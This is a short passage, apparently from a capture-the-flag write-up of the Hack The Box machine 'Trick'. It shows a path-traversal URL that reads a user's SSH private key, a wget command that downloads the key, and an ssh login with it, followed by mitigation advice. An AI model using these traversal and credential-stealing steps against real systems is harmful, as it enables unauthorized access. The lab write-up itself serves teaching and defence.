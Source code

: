 ### **Steps to Reprocedure**

1.  Access the page `http://preprod-marketing.trick.htb/index.php?file=....//....//....//....//home/michael/.ssh/id_rsa`, the attacker get the SSH private key of user 'michael'. 

![](./img/Report/9.png)

2. Download the SSH private key

        wget http://preprod-marketing.trick.htb/index.php?file=....//....//....//....//home/michael/.ssh/id_rsa -O id_rsa

3. Change the permission of the SSH private key

        chmod 400 id_rsa

4. Login to the server as 'michael' user

        ssh michael@10.10.11.166 -i id_rsa

![](./img/Report/10.png)

### **Recommendations**

1. **Whitelisting:** use verified and secured whitelist files and ignore everything else

2. **Use databases:** don’t include files on a web server that can be compromised, use a database instead

3. Use firewalls to block access to sensitive files.

### **References**

1. https://portswigger.net/web-security/file-path-traversal
2. https://brightsec.com/blog/local-file-inclusion-lfi/

